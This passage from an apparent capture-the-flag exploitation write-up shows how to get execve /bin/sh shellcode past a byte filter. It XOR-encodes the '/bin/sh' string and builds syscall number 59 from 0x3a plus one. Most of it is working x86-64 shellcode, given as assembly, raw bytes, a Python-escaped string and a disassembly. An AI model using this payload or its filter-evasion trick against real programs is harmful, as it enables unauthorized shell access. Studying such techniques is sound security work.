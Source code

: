 ```bash
>>> 10 ^ 2
8
```
So how can we use this to our advantage? 


The XOR instruction is available in assembly, so we can use this in our shellcode. What we can do to obfuscate the payload is XOR the char array `bin/sh//` with some random number of the same size char length. For example:

```python
hex(0x68732f6e69622f2f ^ 0x23db8ade130f6ade)
```
We can use the output of this number `0x4ba8a5b07a6d45f1` and XOR it with the other random number `0x23db8ade130f6ade` to get back to the characters `bin/sh//` :tada


Now we just have to solve the restriction on using the exceve syscall number 59 `0x3b`. Since the check explicity looks for the characters `0x3b`, we can just send in `0x3a` and another assembly instruction to add `1` to the same register :satisfied:


### Modified Assembly instructions

```asm
xor rax, rax
push rax
mov r10, 0x23db8ade130f6ade
mov r9, 0x4ba8a5b07a6d45f1
xor r10, r9
push r10
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov al, 0x3a
add al, 0x1
syscall
```

### Bytes from the assembled instructions

```
Raw Bytes:
4831C05049BADE6A0F13DE8ADB2349B9F1456D7AB0A5A84B4D31CA41524889E74831F64831D2B03A04010F05

Python Escaped:
"\x48\x31\xC0\x50\x49\xBA\xDE\x6A\x0F\x13\xDE\x8A\xDB\x23\x49\xB9\xF1\x45\x6D\x7A\xB0\xA5\xA8\x4B\x4D\x31\xCA\x41\x52\x48\x89\xE7\x48\x31\xF6\x48\x31\xD2\xB0\x3A\x04\x01\x0F\x05"

Disassembly:
0:  48 31 c0                xor    rax,rax
3:  50                      push   rax
4:  49 ba de 6a 0f 13 de    movabs r10,0x23db8ade130f6ade
b:  8a db 23
e:  49 b9 f1 45 6d 7a b0    movabs r9,0x4ba8a5b07a6d45f1
15: a5 a8 4b
18: 4d 31 ca                xor    r10,r9
1b: 41 52                   push   r10
1d: 48 89 e7                mov    rdi,rsp
20: 48 31 f6                xor    rsi,rsi
23: 48 31 d2                xor    rdx,rdx
26: b0 3a                   mov    al,0x3a
28: 04 01                   add    al,0x1
2a: 0f 05                   syscall
```
